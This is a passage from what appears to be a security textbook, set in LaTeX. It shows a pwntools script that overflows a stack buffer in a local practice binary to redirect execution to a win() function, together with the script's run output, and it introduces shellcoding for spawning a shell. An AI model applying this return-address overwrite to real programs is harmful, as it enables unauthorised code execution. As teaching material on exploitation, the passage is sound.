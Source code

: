\documentclass{article}
\begin{document}
An implementation of this solution in \texttt{pwntools} is below. This solution
uses the ELF module \texttt{pwntools} in order to find the location of
\texttt{win()} programmatically.

\begin{lstlisting}
#!/usr/bin/python
from pwn import *

e = ELF("./ret_overwrite")
win_address = e.symbols["win"]

p = process("./ret_overwrite")
p.sendline("A" * 80 + p64(win_address))
print p.recv()
> 
\end{lstlisting}

When run, the program calls \texttt{win()} as desired.

\begin{lstlisting}
> ./ret_overwrite_solution.py
[*] '/home/devneal/Security/REFE/textbook/example_code/ret_overwrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret_overwrite': pid 19694
Enter the password:
You don't have permission to perform this action.
Access granted.

[*] Stopped process './ret_overwrite' (pid 19694)
>
\end{lstlisting}

\subsection{Shellcoding}
Although overwriting the return address gives us great control over a program,
we are still limited to executing commands which are already contained in the
binary. Shellcoding will allow us to escape this limitation and execute
arbitrary commands after launching our exploit. The idea is include instructions
to spawn a shell in our input, then overwrite the return address with the
location where those instructions are written. This idea is conceptually simple,
but there are a few details which introduce some complexity.

\begin{enumerate}
    \item We must know the address where our input will be written ahead of
        time \emph{outside} of \texttt{gdb}
    \item We must acquire machine code to spawn a shell
\end{enumerate}

We'll use \texttt{ret\_overwrite.c} again for this example, but we have to
compile it with an additional flag: \texttt{-z execstack}. The source is
reproduced below.
\end{document}
